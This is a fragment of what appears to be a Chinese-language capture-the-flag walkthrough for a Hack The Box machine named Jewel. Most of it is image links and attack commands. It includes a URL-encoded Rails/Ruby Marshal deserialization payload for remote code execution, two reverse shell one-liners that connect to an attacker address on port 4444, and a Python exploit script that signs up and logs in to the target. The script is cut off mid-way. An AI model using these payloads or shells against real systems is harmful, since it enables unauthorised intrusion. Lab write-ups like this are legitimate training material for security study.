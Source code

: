 ```

Please 'curl' twice.
```
touch /tmp/rce 执行了命令


![]({{ site.url }}/assets/Jewel_211.assets/20201129102645583_15019.png)

![]({{ site.url }}/assets/Jewel_211.assets/2020-11-09-23-17-39.png)

`%04%08o%3A%40ActiveSupport%3A%3ADeprecation%3A%3ADeprecatedInstanceVariableProxy%09%3A%0E%40instanceo%3A%08ERB%08%3A%09%40srcI%22%15%60「'payload here'」%60%06%3A%06ET%3A%0E%40filenameI%22%061%06%3B%09T%3A%0C%40linenoi%06%3A%0C%40method%3A%0Bresult%3A%09%40varI%22%0C%40result%06%3B%09T%3A%10%40deprecatorIu%3A%1FActiveSupport%3A%3ADeprecation%00%06%3B%09T`

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.22 4444 >/tmp/f`

![]({{ site.url }}/assets/Jewel_211.assets/2020-11-09-23-24-08.png)

ctrl+u

![]({{ site.url }}/assets/Jewel_211.assets/2020-11-09-23-24-50.png)

`"/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.22/4444 0>&1'"`

![]({{ site.url }}/assets/Jewel_211.assets/20201129103718314_32640.png)

```python
import requests
import re
import sys

URL='http://{}:8080'.format(sys.argv[1])
username='evilx'
password='evilx'
email='evilx@evilx.htb'

if len(sys.argv) != 4:
    print("specify target IP, your IP and port: python3 rev.py 10.10.xx.xx 9001")
    exit(0)

s = requests.Session()

resp = s.get(URL + '/signup')
rx = r'token" content="(.*)"'

token = re.search(rx,resp.text).group(1)

# create user
data = {}
data['utf8'] = 'â'
data['authenticity_token'] = token
data['user[username]'] = username
data['user[email]'] = email
data['user[password]'] = password
data['commit'] = 'Create User'
resp = s.post(URL + '/users', data=data)

# login
data = {}
data['utf8'] = 'â'
data['authenticity_token'] = token
data['session[email]'] = email
data['session[password]'] = password
data['commit'] = 'Log in'
```